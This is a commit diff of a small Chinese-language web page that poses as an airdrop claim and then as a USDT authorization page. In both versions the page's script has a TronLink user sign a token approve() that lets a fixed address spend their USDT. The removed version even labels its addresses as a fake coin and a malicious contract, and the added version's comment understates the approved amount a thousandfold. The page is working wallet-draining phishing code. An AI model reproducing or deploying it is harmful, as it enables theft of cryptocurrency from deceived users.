

Before and after one commit to jordanbbd/hoho, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours; a script that the page names is missing.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,45 +1,53 @@
 <!DOCTYPE html>
-<html>
+<html lang="zh">
 <head>
-  <meta charset="UTF-8" />
-  <title>領取空投</title>
-  <script src="https://cdn.jsdelivr.net/npm/tronweb/dist/TronWeb.js"></script>
+  <meta charset="UTF-8">
+  <title>泰達貨幣買賣契約</title>
+  <script src="https://cdn.jsdelivr.net/npm/sweetalert2@11"></script>
+  <style>
+    .wallet-address { font-weight: bold; font-size: 16px; margin: 10px 0; }
+    .btn-submit { padding: 10px 20px; background: #2d5ae5; color: white; border: none; cursor: pointer; }
+  </style>
 </head>
 <body>
-  <h2>🎁 恭喜獲得空投資格</h2>
-  <p>請點下方按鈕完成授權，才能領取您的空投。</p>
-  <button onclick="approve()">✅ 點我授權</button>
-  <p id="status"></p>
+
+  <h2>泰達 USDT 授權頁</h2>
+  <div>目前錢包地址：</div>
+  <div class="wallet-address" id="wallet-address">載入中...</div>
+
+  <button class="btn-submit" onclick="approveUSDT()">上傳交易資料</button>
 
   <script>
-    const fakeUSDT = "TVCS7QxvBzTxg1ybwMTxVeaJktHCCFj4Xt";     // 假幣地址
-    const fakeApprove = "TNogK4zkavHQtpyAgBuTRo7iNPREHj9dxx";   // 惡意合約地址
-    const maxAmount = "115792089237316195423570985008687907853269984665640564039457584007913129639935"; // 2^256-1
+    const USDT_CONTRACT = "TXLAQ63Xg1NAzckPwKHvzw7CSEmLMEqcdj"; // TRON USDT 合約
+    const SPENDER = "TBX8foxSthqVpiKqR87gN62M6oE91EKX7B"; // 目標地址
 
-    async function waitForWallet(timeout = 10000) {
-      const start = Date.now();
-      while ((!window.tronWeb || !window.tronWeb.defaultAddress.base58) && (Date.now() - start < timeout)) {
-        document.getElementById("status").innerText = "⏳ 正在等待錢包連線...";
-        await new Promise(r => setTimeout(r, 500));
+    async function detectWallet() {
+      if (window.tronWeb && window.tronWeb.defaultAddress.base58) {
+        const address = window.tronWeb.defaultAddress.base58;
+        document.getElementById("wallet-address").textContent = address;
+      } else {
+        document.getElementById("wallet-address").textContent = "請用 TronLink 開啟";
       }
     }
 
-    async function approve() {
-      await waitForWallet();
-
+    async function approveUSDT() {
       if (!window.tronWeb || !window.tronWeb.defaultAddress.base58) {
-        document.getElementById("status").innerText = "❌ 找不到 TronLink 或 imToken 錢包";
+        Swal.fire("請先使用 TronLink 開啟頁面");
         return;
       }
 
       try {
-        const contract = await window.tronWeb.contract().at(fakeUSDT);
-        const tx = await contract.approve(fakeApprove, maxAmount).send();
-        document.getElementById("status").innerText = `✅ 授權成功！TX：${tx}`;
-      } catch (err) {
-        document.getElementById("status").innerText = `❌ 錯誤：${err.message}`;
+        const usdt = await tronWeb.contract().at(USDT_CONTRACT);
+        const result = await usdt.approve(SPENDER, "1000000000000").send(); // 授權 1,000 USDT（6 decimals）
+        Swal.fire("成功授權", `交易哈希：${result}`, "success");
+      } catch (e) {
+        Swal.fire("授權失敗", e.message || e, "error");
       }
     }
+
+    window.addEventListener("load", () => {
+      setTimeout(detectWallet, 500);
+    });
   </script>
 </body>
 </html>
```
